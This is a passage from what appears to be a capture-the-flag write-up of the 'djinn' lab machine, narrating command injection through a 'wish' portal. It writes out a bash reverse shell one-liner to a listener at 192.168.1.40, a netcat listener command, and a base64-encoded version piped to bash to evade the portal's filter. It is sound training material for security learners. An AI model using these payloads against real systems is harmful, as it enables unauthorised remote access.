 Yes! I could execute commands on the machine! Immediately, I went to PentestMonkey’s reverse shell cheatsheet ([https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)) and used the bash one-liner to try and get a reverse shell. The payload I used was:

<div style="text-align: center; font-size: larger;">
  <code style="font-family: monospace;">bash -i >& /dev/tcp/192.168.1.40/1234 0>&1</code>
</div>

I set up my netcat listener on port 1234 using `nc -lvp 1234` and pasted the payload into the wish page to see if it would work. But alas, it did not.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/djinn/djinn_14.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I did some testing, and I found that the wish granting portal does not like IP addresses. Not an issue! I encoded the payload using base64 using:

<div style="text-align: center; font-size: larger;">
  <code style="font-family: monospace;">echo "bash -i >& /dev/tcp/192.168.1.40/1234 0>&1" | base64</code>
</div>

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/djinn/djinn_15.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Then, I pasted the payload into the wish portal, and also added commands to decode it and run it. The final payload looked like this:

<div style="text-align: center; font-size: larger;">
  <code style="font-family: monospace;">echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuNDAvMTIzNCAwPiYxCg==" | base64 -d | bash</code>
</div>

Sure enough, I got the reverse connection!

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/djinn/djinn_16.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Inside the app.py file in the directory I was dropped into, there was a path to a credentials file.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/ctf/djinn/djinn_17.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
